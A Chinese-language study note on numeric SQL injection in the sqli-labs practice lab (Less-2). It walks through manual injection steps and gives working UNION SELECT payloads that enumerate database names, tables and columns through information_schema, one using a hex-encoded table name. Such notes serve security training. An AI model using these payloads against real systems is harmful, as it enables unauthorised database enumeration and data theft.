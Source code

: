 ### sqli-labs数字型注入

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1644921498000/a6c51cb8e8ec4a3b8840fa3c8e105f86.png)

在url中输入id值，执行查询sql语句。即可得到对应数据

less-2源码分析：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1644921498000/d4245f8d3a7b423ebb96ddaa5f894fa8.png)


浏览器 进行数据提交  服务器  ：

```
get 提交  ：  url   数据长度 
     速度快  
	 用于： 
	
post 提交 ： 服务器    安全性   数据量 
```


### 注入流程

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1644921498000/708c5f66672d462d8bffd38e68791f2f.png)




### 注入语句

```
尝试手工注入：
		SQL注入： 
		1.判断有无注入点   and 1 = 1； true 
		随便输入内容  ==  报错  注入
		              ==  没有注入
		2.猜解列名数量 order by %20 空格
		字段 4个
	
		3.报错，判断回显点 union 
		4.信息收集 
		  数据库版本 version()
		  高版本：5.0  
			系统库： infromation 。。。
		  数据库名称：database（）	
		  低版本：5.0 
		5.使用对应SQL进行注入  
			数据库库名：security
		. 下一级  
		infromation_schema.tables 查找表名
		table_name
		查询serurity库下面 所有的表名 
	
		database（）
	
	
		= 前后 连到一起
		union select 1,group_concat(table_name),3 from information_schema.tables
		where table_schema=database()
	
		表： users
		如何查询表里面有那些字段？ 
		user 字符 转行 16进制
		union select 1,group_concat(column_name),3 from information_schema.columns
		where table_name=0x7573657273
	
```